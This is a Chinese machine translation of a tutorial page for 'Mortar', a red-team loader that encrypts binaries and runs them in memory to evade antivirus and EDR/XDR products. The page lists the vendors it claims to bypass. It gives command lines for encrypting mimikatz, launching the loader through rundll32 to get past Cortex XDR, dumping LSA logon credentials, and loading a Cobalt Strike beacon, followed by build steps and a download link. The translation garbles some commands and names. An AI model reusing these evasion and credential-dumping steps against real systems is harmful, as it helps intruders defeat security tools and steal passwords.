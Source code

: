 # 迫击炮:规避技术，以挫败和转移检测和预防的安全产品(反病毒/EDR/XDR)

> 原文：<https://kalilinuxtutorials.com/mortar/>

[![](img/b3186026cdc6e57917c5358a3476db8c.png)](https://blogger.googleusercontent.com/img/a/AVvXsEh9gSOy7A9yubm3GDUaxzyByvakdl-yOJhF8SnNJLlK79w2AwxJgHky9xDGrT0Y9ZPYh2pN_mTyhbEwFsolQ_2WpnvZNI_yM9NwcfJ2b52Pfpv4__Ah1y2w3OhuMHg-XbZj4YNx75P2hElxs5_pnbVlhEXkSd1YE1IyhenRlBPuobSvmMo1wEZ2n91M=s676)

**Mortar** 是一种红色组队规避技术，用于挫败和转移安全产品的检测和防范。Mortar Loader 对内存流中选定的二进制文件进行加密和解密，并直接执行，而不会将任何恶意指示器写入硬盘。Mortar 能够绕过现代防病毒产品和高级 XDR 解决方案，并且已经过测试，并确认可以绕过以下内容:

*   卡巴斯基
*   ESET
*   Malwarebytes
*   迈克菲
*   皮层 XDR
*   Windows defender
*   Cylance
*   趋势科技
*   Bitdefender
*   诺顿赛门铁克

**用途**

**加密器**

**root@kali >。/encryptor-f mimikatz.exe-o bin . enc**

**加载程序(DLL)**

为了绕过 Cortex XDR，在同一个文件夹中添加 agressor.dll 和 bin.enc，并编写以下 bat 文件

**@ echo off
cmd.exe/c rundll32.exe agressor . dll，隐身**

正常情况下，您可以直接执行 agressor.dll

**rundll32.exe agressor . dll，12 月**

**加载程序(EXE)**

可执行版本有更多的选项供您使用，因为您可以为加载的二进制文件传递命令

**米米卡茨垃圾场 LSA
deliver.exe-d-c sekurlsa::logon passwords-f 米米米卡茨. enc
钴击信标
deliver.exe-d-f 钴. enc**

**编译加载程序(仅限 windows)**

该项目已经使用 FPC(免费 Pascal)进行了编码，通过下载并安装 Lazarus IDE(https://www.lazarus-ide.org/index.php?page=downloads)并导航到文件>打开->运行->构建，编译过程非常简单

**编译加密器(Linux/BSD/Arm/MAC OS//windows)**

要么从官方网站下载安装 Lazarus-IDE(https://www . Lazarus-IDE . org/index . PHP？页面=下载量)

Debian & Ubuntu
安装 fpc
安装 lazarus-ide

[**Download**](https://github.com/0xsp-SRD/mortar)